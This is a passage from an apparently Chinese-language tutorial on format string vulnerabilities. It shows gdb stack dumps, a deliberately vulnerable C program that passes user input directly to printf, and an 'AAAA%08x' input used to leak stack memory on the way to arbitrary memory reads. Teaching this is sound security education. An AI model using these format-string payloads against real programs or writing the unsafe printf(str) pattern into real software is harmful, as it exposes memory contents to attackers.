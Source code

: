 我们查看一下此时的栈布局:

```c
>>> x/10x $sp
0xbffff00c: 0x08048466  0x08048510  0xbffff03f  0x00000001
0xbffff01c: 0x00000002  0x00000003  0x00c30000  0x00000001
0xbffff02c: 0x080482bd  0xbffff2c4
```

我们已经看到了0x00c30000，根据第一节我们对栈帧布局的认识，我们可以想象一下调用printf()函数后的栈的布局是什么样的

```c
>>> x/20x $sp
0xbffff00c: 0x08048466  0x08048510  0xbffff03f  0x00000001
0xbffff01c: 0x00000002  0x00000003  0x00c30000  0x00000001
0xbffff02c: 0x080482bd  0xbffff2c4  0x0000002f  0x0804a000
0xbffff03c: 0x740484d2  0x00747365  0x00000003  0x00000002
0xbffff04c: 0x00000001  0xb7fc13c4  0xbffff070  0x00000000
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597465724907-385e68d7-2390-4e4c-8222-77b9a378f89a.png)

看了上面的图，相信大家已经很明白了吧，只要我们能够控制format的，我们就可以一直读取内存数据。

```c
printf("%s %d %d %d %x %x %x %x %x %x %x %xn",buf,a,b,c)
bingtangguan@ubuntu:~/Desktop/format$ ./format2
test 1 2 3 c30000 1 80482bd bf8bf301 2f 804a000 740484d2 747365
```

上一个例子只是告诉我们可以利用%x一直读取栈内的内存数据，可是这并不能满足我们的需求，我们要的是任意地址读取，当然，这也是可以的，我们通过下面的例子进行分析:

```c
#include <stdio.h>
int main(int argc, char *argv[])
{
    char str[200];
    fgets(str,200,stdin);
    printf(str);
    return 0;
}
```



有了上一个小例子的经验，我们可以直接尝试去读取str[]的内容呢

gdb调试，单步运行完call   0x8048340 <fgets@plt>后输入:

AAAA%08x%08x%08x%08x%08x%08x(学过C语言的肯定知道%08x的意义，不明白的也不要紧，可以先看一下后面的特性三，我这里就不再多说了)

然后我们执行到printf()函数，观察此时的栈区，特别注意一下0x41414141(这是我们str的开始):

```c
>>> x/10x $sp
0xbfffef70: 0xbfffef88  0x000000c8  0xb7fc1c20  0xb7e25438
0xbfffef80: 0x08048210  0x00000001  0x41414141  0x78383025
0xbfffef90: 0x78383025  0x78383025
```

